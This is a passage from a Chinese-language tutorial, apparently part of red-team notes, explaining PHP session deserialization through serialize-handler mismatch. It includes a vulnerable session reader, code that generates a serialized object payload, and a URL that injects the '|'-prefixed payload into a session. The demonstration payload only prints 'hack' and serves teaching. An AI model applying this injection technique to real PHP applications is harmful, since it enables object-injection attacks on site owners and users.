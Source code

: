 **读取session**

```php
# session_read.php

<?php
	ini_set("session.serialize_handler", "php");
	session_start();
	class test {
		public $data;
		function __wakeup(){
			echo $this->data;
		}
	}
?>
```

**生成playload**

```php
<?php
	class test {
		public $data = 'hack';
	}
	$o = new test();
	echo serialize($o);
?>

O:4:"test":1:{s:4:"data";s:4:"hack";}
```

将 playload 前面加上 `|` 输入到 session 里
```
/session.php?a=|O:4:"test":1:{s:4:"data";s:4:"hack";}
```

```php
array(1) {
  ["edd1e"]=>
  string(38) "|O:4:"test":1:{s:4:"data";s:4:"hack";}"
}
```

打开读取 session 页面输出构造的内容

![](../../../../../assets/img/Security/RedTeam/语言安全/PHP安全/PHP反序列化/5.png)

在 php 模式下 格式为键名＋竖线＋经过 serialize0 函数反序列处理的值

储存的 session 字符串为
```
a:1:{s:5:"edd1e";s:38:"|O:4:"test":1:{s:4:"data";s:4:"hack";}
```

反序列化的就是后面的字符串,所以成功输出

---

## POP

- [POP](./POP.md)
